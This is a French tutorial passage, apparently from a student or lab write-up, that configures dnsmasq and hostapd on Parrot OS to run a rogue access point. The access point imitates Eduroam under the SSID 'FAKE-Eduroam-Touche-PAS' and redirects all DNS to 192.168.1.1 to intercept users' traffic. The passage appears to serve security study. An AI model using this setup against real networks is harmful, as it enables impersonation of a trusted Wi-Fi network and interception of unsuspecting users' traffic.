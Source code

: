 Cette configuration pour **dnsmasq** permet de configurer un serveur DHCP et DNS sur l'interface réseau spécifiée. La ligne `interface=wlp6s0` désigne l'interface Wi-Fi utilisée pour la diffusion. Le paramètre `dhcp-range=192.168.1.2,192.168.1.250,12h` définit une plage d’adresses IP à attribuer dynamiquement aux clients, de `192.168.1.2` à `192.168.1.250`, avec une durée de bail de 12 heures. Les options `dhcp-option=3,192.168.1.1` et `dhcp-option=6,192.168.1.1` spécifient respectivement la passerelle par défaut et le serveur DNS, ici tous deux définis sur `192.168.1.1`. Enfin, `address=/#/192.168.1.1` redirige toutes les requêtes DNS vers l’adresse `192.168.1.1`, souvent utilisée pour intercepter ou rediriger le trafic des utilisateurs connectés au réseau. 

Démarrer dnsmasq :
```bash
sudo dnsmasq -C dnsmasq.conf
```

#### 3.2 **Configuration de hostapd :**
Créer un fichier de configuration pour **hostapd** (`hostapd.conf`) :
```ini
#Configuration de l'interface sans-fil 
interface=wlp6s0

#Configuration du Nom Wifi
ssid=FAKE-Eduroam-Touche-PAS

#Configuration du SSID
channel=1

#Configuration du Driver
driver=nl80211
```
Cette configuration pour hostapd sert à créer un point d'accès Wi-Fi malveillant (Rogue Access Point) avec les paramètres suivants :
Interface sans fil : La ligne interface=wlp6s0 désigne l'interface réseau Wi-Fi utilisée pour diffuser le signal. Cette interface doit être compatible avec le mode AP (point d'accès).
Nom du réseau Wi-Fi (SSID) : Le paramètre ssid=FAKE-Eduroam-Touche-PAS définit le nom du réseau diffusé, conçu pour imiter un réseau légitime, dans ce cas "Eduroam".
Canal : Le paramètre channel=1 fixe le canal Wi-Fi utilisé pour la diffusion, ce qui peut être optimisé en fonction des analyses du spectre pour éviter les interférences.
Pilote réseau : La ligne driver=nl80211 spécifie le pilote utilisé pour gérer la carte Wi-Fi. Le pilote nl80211 est compatible avec la plupart des cartes modernes prenant en charge les modes AP et moniteur.


Lancer hostapd avec la commande suivante :
```bash
hostapd hostapd.conf -B
```
L'éxécution de ces commandes ce feront dans une machine Parrot OS. Il est important d'exécuter **dnsmasq** avant **hostapd** pour assurer un fonctionnement optimal du point d'accès Wi-Fi. **Dnsmasq** configure les services DHCP et DNS, permettant aux clients de recevoir une adresse IP et de résoudre les noms de domaine une fois connectés. Si **hostapd** est exécuté en premier, les clients pourront se connecter au point d'accès, mais ils ne recevront pas d'adresse IP ni de service DNS, rendant leur connexion inutilisable jusqu'à ce que **dnsmasq** soit démarré. L'ordre garantit ainsi une expérience réseau fluide pour les utilisateurs connectés.
